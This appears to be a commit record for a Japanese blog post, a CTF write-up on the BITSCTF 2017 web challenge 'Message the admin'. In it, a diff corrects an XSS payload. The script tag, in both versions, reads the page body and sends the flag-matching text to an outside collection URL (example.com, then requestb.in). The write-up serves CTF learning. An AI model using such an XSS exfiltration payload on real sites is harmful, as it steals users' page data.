

Before and after one commit to st98/diary, a Jekyll site: the page built from _posts/2017-02-06-bitsctf-2017.md, in a window 1280 px wide and 900 px high, scrolled down 349 px. Shown: the whole window, without its empty margins (272-1007 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed lines change nothing that is shown.

Commit message:
[web 60] Message the adminのコードを修正

````diff
--- a/_posts/2017-02-06-bitsctf-2017.md
+++ b/_posts/2017-02-06-bitsctf-2017.md
@@ -15,8 +15,8 @@
 
 admin にメッセージが投げられるサービスですが、どうやらメッセージの閲覧ページに XSS があるようです。
 
-```
-<script>(new Image.src)='http://example.com?'+(document.body.innerHTML.match(/[0-9A-Za-z]+\{.+\}/ig)[0])</script>
+```html
+<script>(new Image).src='http://requestb.in/xxx?'+(document.body.innerHTML.match(/[0-9A-Z]+\{.+\}/ig)[0])</script>
 ```
 
 を投げるとフラグが来ました。
````
Also changed, not shown: 1 other file.
